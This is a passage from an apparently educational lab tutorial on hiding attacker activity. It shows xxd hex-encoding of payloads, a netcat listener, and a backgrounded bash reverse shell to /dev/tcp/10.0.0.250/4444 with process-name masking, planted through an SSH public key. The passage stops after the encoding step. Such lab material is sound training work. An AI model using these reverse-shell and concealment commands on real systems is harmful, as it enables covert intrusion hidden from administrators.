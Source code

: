 ## Lab #2 - Hiding things

As the bad guy, you'll want to make things a bit more interesting by hiding (from the real admin) that you're connected to the SERVER.  This can be accomplished by using the xxd command to encode your command string. 

One of xxd capabilities is that it can encode it's input so that it's output is "mail-safe", in that  the ouput is made up of nothing but readable ASCII characters.  This is done via the "-ps" switch.  The process can be reversed with the "-r" switch.

A side effect of using xxd is that you get the ability to use multi-line commands in your payload, instead of having to build your command to run on one line. 

To practice using xxd, try:

1) Run the following:
   
   ```c
   echo "Hello world!" | xxd -ps
   ```
   
   The output should look something like:
   
   ```c
   48656c6c6f20576f726c64210a
   ```

3) Copy the above output and run the following:
   
   ```c
   echo "48656c6c6f20576f726c64210a" | xxd -r -ps
   ```
   
   You should see the original "Hello world!" string.

For multi-line payloads, write your scripts into a text file, then cat it and pipe that output to "xxd -ps".

Following is a simple 2-line payload that you can add to the public_key.

1) Reset the lab.

2) Open two terminal windows.  Name one "ADMIN" and the other "BAD GUY".

3) In the BAD GUY window, run:
   
   ```c
   nc -lvnp 4444
   ```

4) In the ADMIN window, ssh to 10.0.0.1 and create a RSA keypair for SSH.

5) In the ADMIN window, create a file called temp.txt so that it contains:
   
   ```c
   bash -c "/bin/bash -i >& /dev/tcp/10.0.0.250/4444 0>&1" >/dev/null 2>/dev/null &
   exec -a -$(basename /bin/bash) /bin/bash
   ```

6) Run the following to encode the above.
   
   ```c
   cat temp.txt | xxd -ps | tr -d '\n' 2>/dev/null;echo ''
   ```
   